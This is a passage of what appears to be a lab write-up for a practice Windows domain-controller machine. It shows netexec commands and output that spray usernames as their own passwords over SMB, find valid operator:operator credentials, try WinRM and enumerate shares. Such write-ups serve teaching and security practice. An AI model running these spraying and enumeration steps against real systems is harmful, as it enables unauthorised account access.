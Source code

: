 I can do a quick check to see if any of the usernames I've collected use
their username as their password. With `netexec`, I'll give the same
list for `-u` and `-p`, and the `--no-brute` flag, which means instead
of tying each username with each password, it just tries the first
username with the first password, the second with the second, and so on.
I like the `--continue-on-success` flag to check if there are more then
one set of valid creds here:



    oxdf@hacky$ netexec smb manager.htb -u users -p users --continue-on-success --no-brute
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
    SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 



The operator account uses the password operator! It doesn't work over
WinRM, so no shell from here:



    oxdf@hacky$ netexec winrm manager.htb -u operator -p operator
    WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
    WINRM       10.10.11.236    5985   DC01             [-] manager.htb\operator:operator



### Enumeration as operator

#### SMB

The shares on Management are the standard DC shares:



    oxdf@hacky$ netexec smb manager.htb -u operator -p operator --shares
    SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
    SMB         10.10.11.236    445    DC01             [*] Enumerated shares
    SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
    SMB         10.10.11.236    445    DC01             -----           -----------     ------
    SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
    SMB         10.10.11.236    445    DC01             C$                              Default share
    SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
    SMB         10.10.11.236    445    DC01             NETLOGON        READ            Logon server share 
    SMB         10.10.11.236    445    DC01             SYSVOL          READ            Logon server share 
